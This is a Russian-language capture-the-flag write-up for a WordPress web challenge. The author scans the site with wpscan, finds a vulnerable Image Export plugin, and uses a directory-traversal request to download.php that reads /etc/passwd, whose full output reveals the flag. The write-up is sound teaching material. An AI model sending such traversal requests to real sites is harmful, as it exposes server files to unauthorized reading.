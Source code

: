 Mr.Hacker [Web 150]
=====================
> Красивый дизайн, впечатляющие возможности и свобода создавать всё, что вы захотите.
http://185.17.120.141 (Посмотри на логин этого парня)


![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image01.PNG?raw=true)

Переходим на сайт. Видим, что cms сайта - ```wordpress```. Так же можно узнать версию wordpress ```4.7.3```.
Если вы читаете IT новости, то наверняка видили много статьей про уязвимости wordpress, а значит нам необходим их проэкспуатировать

Используем встроенный в Kali Linux сканер wpscan (его также можно установить на любой другой дистрибутив)

Инициализируем, используя флаги ```--url``` (для указания ip адресса сайта)  ```--enumerate``` (перечисление опций ) ```vp``` (только уязвимые плагины)

```wpscan --url http://185.17.120.141/ --enumerate vp```


В результате сканирования получаем следующую информацию:

```
[+] We found 1 plugins:

[+] Name: image-export - v4.1
 |  Location: http://185.17.120.141/wp-content/plugins/image-export/
 |  Readme: http://185.17.120.141/wp-content/plugins/image-export/readme.txt

[!] Title: Image Export <= 1.1.0 - Directory Traversal
    Reference: https://wpvulndb.com/vulnerabilities/8096
    Reference: http://www.vapid.dhs.org/advisory.php?v=135
    Reference: http://packetstormsecurity.com/files/132688/

[+] Finished: Sun Jun  3 15:22:51 2018
[+] Requests Done: 1697
[+] Memory used: 78.488 MB
[+] Elapsed time: 00:00:54
```

Как мы видим, на сайте используется уязвимый плагин ```Image Export```

Гуглим, натыкаемся на сайт с описанием экспоита:

```https://ru.0day.today/exploit/23884```

![alt text](https://github.com/axelmaker/vkactf2018_writeup/blob/master/web/image02.PNG?raw=true)

Читаем описание экспоита.
Видим, что с помощью данного экспоита можно получить доступ к файла сервера.
Применим его к нашему сайту, скачав файл с данными пользователей ```/etc/passwd```

```http://185.17.120.141/wp-content/plugins/image-export/download.php?file=/etc/passwd```

Открываем файл и внизу обнаруживаем пользователя со странным никнеймом ```th1s_Is_d1r3cT0ryTR4VeRs4l```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
nut:x:84:84:nut:/var/state/nut:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www-data:x:82:82:Linux User,,,:/home/www-data:/bin/false
th1s_Is_d1r3cT0ryTR4VeRs4l:x:1000:1000:Linux User,,,:/home/th1s_Is_d1r3cT0ryTR4VeRs4l:
<br />
<b>Warning</b>:  unlink(/etc/passwd): Permission denied in <b>/var/www/html/wp-content/plugins/image-export/download.php</b> on line <b>8</b><br />
```
Легко догадаться, что данное имя пользователя и является флагом

```flag{th1s_Is_d1r3cT0ryTR4VeRs4l}```

